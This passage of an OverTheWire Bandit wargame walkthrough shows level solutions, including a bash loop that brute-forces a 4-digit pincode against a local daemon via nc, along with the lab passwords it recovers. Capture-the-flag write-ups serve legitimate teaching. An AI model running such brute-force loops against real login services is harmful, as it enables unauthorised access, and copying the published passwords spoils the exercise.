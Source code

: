```console
bandit24.sh  level24
bandit23@bandit:/tmp/ooo$ cat level24
```
Password:    *UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ*

---

**Level 24 --> 25**

> **Level Goal**
>
>A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

```console
bandit24@bandit:/tmp/24$ nano hammer.sh
#!/bin/bash

for i in {9999..000}
do
	echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i"
done
bandit24@bandit:/tmp/24$ chmod +x hammer.sh
bandit24@bandit:/tmp/24$ ./hammer.sh > bruteforce.sh
<----snip---->
bandit24@bandit:/tmp/24$ cat  bruteforce.sh | nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
<----snip---->
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

Exiting.
```

Password:    *uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG*

---

**Level 25 --> 26**

> **Level Goal**
>
>Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not /bin/bash, but something else. Find out what it is, how it works and how to break out of it.
